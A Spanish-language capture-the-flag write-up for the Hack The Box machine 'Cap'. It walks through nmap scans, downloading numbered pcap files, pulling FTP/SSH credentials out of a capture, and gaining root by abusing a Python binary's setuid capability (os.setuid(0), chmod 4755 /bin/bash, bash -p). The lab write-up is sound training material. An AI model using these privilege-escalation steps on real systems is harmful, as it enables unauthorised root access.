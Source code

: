 ![imagen](https://user-images.githubusercontent.com/71317374/135714589-65382ded-013c-4b8a-962a-809113a2c459.png)

Cap es una máquina Linux de nivel fácil creada por [InfoSecJack](https://app.hackthebox.eu/users/52045). En ella hay que analizar unos paquetes con Wireshark y hacer uso de las [capabilities](https://www.incibe-cert.es/blog/linux-capabilities) para convertirnos en el grandioso root

Según la gente de Jak De Boxz, la máquina sería así:

![imagen](https://user-images.githubusercontent.com/71317374/135714734-01dba700-004e-4fb0-9e3b-151205a0b643.png)

Lo gracioso es que no hay que explotar ningún CVE.

1. [Reconocimiento inicial](#recon)
2. [Página web](#web)
3. [Analizando el .pcap con Wireshark](#pcap)
4. [Conseguimos root :D](#root)
# Reconocimiento inicial {#recon}

Como siempre, empezamos usando `nmap` para ver los puertos abiertos y conseguir posibles lugares por los que entrar.
```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:52:07 2021 as: nmap -p- --open -sS --min-rate 4000 -n -vv -oN scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.40s latency).
Scanned at 2021-10-02 13:52:07 CEST for 26s
Not shown: 41525 closed tcp ports (reset), 24007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  2 13:52:33 2021 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

Hmm, puerto 21 abierto, podríamos intentar entrar como el usuario `anonymous`. De momento vamos a hacer un escaneo en profundidad...

```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:54:06 2021 as: nmap -sCV -p21,22,80 -oN targeted 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<fingerprint muy larga>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:56:17 2021 -- 1 IP address (1 host up) scanned in 131.53 seconds
```
| Puerto       | Servicio                              |
 |:-------      |:-----------------------------------   |
 | 21           | FTP   |
 | 22           | SSH, para obtener una shell segura    |
 | 80           | [Gunicorn](https://gunicorn.org/)   |                      |
 
 
# Página web {#web}
Entrar al FTP con las credenciales `anonymous: ` no funcionó, así que nos centraremos en la página web. Lo primero que nos encontramos al entrar es esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715330-d77dc314-8f5b-49dc-9f95-ac130ca1adbb.png)

La Security Snapshot parece interesante, pinchamos y tenemos esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715405-426ad6b1-c238-4d55-be90-2aaeecc76ee1.png)

Si le diéramos a Download, nos descargaría un archivo .pcap. También usa un número para identificar al archivo, así que tiene que haber un archivo 0, 1, etc.
Si probamos con el 0:

![imagen](https://user-images.githubusercontent.com/71317374/135715477-10ce33cb-c48e-46d0-98c0-2417e2c02f31.png)

Existe, así que lo descargamos y nos abrimos wireshark para ver si tuviera algo interesante, como unas credenciales.

# Analizando el .pcap con Wireshark {#pcap}

![imagen](https://user-images.githubusercontent.com/71317374/135715540-533be66c-d680-48b8-8eea-7ad67ea4130a.png)

Solamente al abrirlo hay algo interesante, un login en el FTP y unas credenciales :O, que serían `nathan:Buck3tH4TF0RM3!`, y tenemos un FTP y además un SSH abierto, igual las credenciales son válidas para ambos.
Si probamos a usarlas contra el SSH son válidas, así que estaríamos ya dentro y puedes recoger la user flag y llevártela a HTB para meterla por donde le quepa.

# Conseguimos root :D {#root}

Tras estar un rato enumerando, no saqué nada :/, hasta que encontré lo que eran las capabilities, una alternativa al SUID y al `sudo`: https://www.incibe-cert.es/blog/linux-capabilities(está también por arriba)
Para encontrar las capabilities de los archivos, hay que ejecutar el comando `getcap -r / 2>/dev/null`. la parte de 2>/dev/null es únicamente para enviar todos los errores al [/dev/null](https://linuxhint.com/what_is_dev_null/)

![imagen](https://user-images.githubusercontent.com/71317374/135716260-231d9332-d445-4156-ac37-562547482079.png)

Python con capability para cambiarte de usuario a voluntad, qué bien configurado...

```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('whoami')
root
0
```

Y así te convertirías en root, para salir de python y usar una bash como root podrías ejecutar lo siguiente: `os.system("chmod 4755 /bin/bash")` para asignarle el privilegio SUID(SetUID) a la /bin/bash.
Entonces, si ahora ejecutas `bash -p` te conviertes en root y puedes recoger tu premio en la meta, /root.

Ha sido una máquina divertida, que explota algo que no se suele mirar, las capabilities, que no sabía qué eran xD.

Si te ha gustado dame una estrellita, un follow o algo en mi [github](github.com/binlaab), que no te cuesta nada, dale.
